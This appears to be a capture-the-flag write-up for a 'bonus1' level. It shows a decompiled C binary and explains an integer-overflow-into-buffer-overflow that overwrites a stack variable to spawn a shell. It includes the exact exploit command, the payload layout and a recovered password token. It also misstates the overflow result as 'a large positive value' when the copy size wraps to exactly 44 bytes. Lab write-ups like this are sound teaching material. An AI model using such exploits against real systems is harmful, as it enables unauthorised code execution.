 # Bonus1 - Integer Overflow Exploitation

## Summary

This level demonstrates an **integer overflow vulnerability** combined with a buffer overflow. The program uses a signed integer to control the size of a memory copy operation, allowing us to bypass size restrictions and overwrite a critical variable.

## Vulnerability Analysis

### Source Code (Decompiled)

```c
undefined4 main(undefined4 param_1, int param_2)
{
  undefined4 uVar1;
  undefined1 local_3c [40];  // buffer de 40 octets
  int local_14;              // variable pour stocker le nombre
  
  local_14 = atoi(*(char **)(param_2 + 4));  // argv[1] converti en int
  if (local_14 < 10) {                        // doit être < 10
    memcpy(local_3c, *(void **)(param_2 + 8), local_14 * 4);  // copie argv[2]
    if (local_14 == 0x574f4c46) {             // si == 1464814662
      execl("/bin/sh","sh",0);                 // SHELL !
    }
    uVar1 = 0;
  }
  else {
    uVar1 = 1;
  }
  return uVar1;
}
```

### The Vulnerability: Integer Overflow

The program has multiple issues:

1. **Signed Integer Check**: The program checks `local_14 < 10`, but `local_14` is a **signed integer**
2. **Integer Multiplication**: `memcpy` uses `local_14 * 4` as the size parameter
3. **Win Condition**: If `local_14 == 0x574f4c46` (1464814662), it spawns a shell

### Stack Layout

```
[buffer: 40 bytes]  <- local_3c (at ebp-0x3c)
[local_14: 4 bytes] <- at ebp-0x14
```

Distance: `0x3c - 0x14 = 0x28 = 40 bytes`

## Exploitation Strategy

### The Attack Vector

1. **Use a negative number** for `argv[1]` to pass the check `< 10`
2. **Integer overflow** on multiplication: negative × 4 wraps to a large positive number
3. **Buffer overflow** via `memcpy` to overwrite `local_14`
4. **Overwrite `local_14`** with `0x574f4c46` to trigger shell execution

### Finding the Right Value

We need a number `N` such that:

- `N < 10` (passes the check)
- `N * 4` overflows to a value ≥ 44 (to copy enough bytes)
- We can write 40 bytes of padding + 4 bytes of `0x574f4c46`

**Solution**: `-2147483637`

- This is close to `INT_MIN` (-2147483648)
- When multiplied by 4: `-2147483637 * 4 = -8589934548`
- Due to 32-bit integer overflow, this wraps around to a large positive value
- This allows `memcpy` to copy at least 44 bytes

### Payload Structure

```
[40 bytes padding] + [0x574f4c46 in little-endian]
     "A" × 40     +    \x46\x4c\x4f\x57
```

## Exploitation

### Command

```bash
./bonus1 -2147483637 $(python -c 'print "A"*40 + "\x46\x4c\x4f\x57"')
```

### Execution Flow

1. `atoi(argv[1])` converts "-2147483637" to integer `local_14 = -2147483637`
2. Check passes: `-2147483637 < 10` ✓
3. `memcpy(local_3c, argv[2], -2147483637 * 4)` is called
4. Integer overflow makes the size very large, copying our entire payload
5. Buffer overflows and overwrites `local_14` with `0x574f4c46`
6. Condition `local_14 == 0x574f4c46` is true
7. `execl("/bin/sh")` spawns a shell
8. Read `/home/user/bonus2/.pass`

## Token discovered

```
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
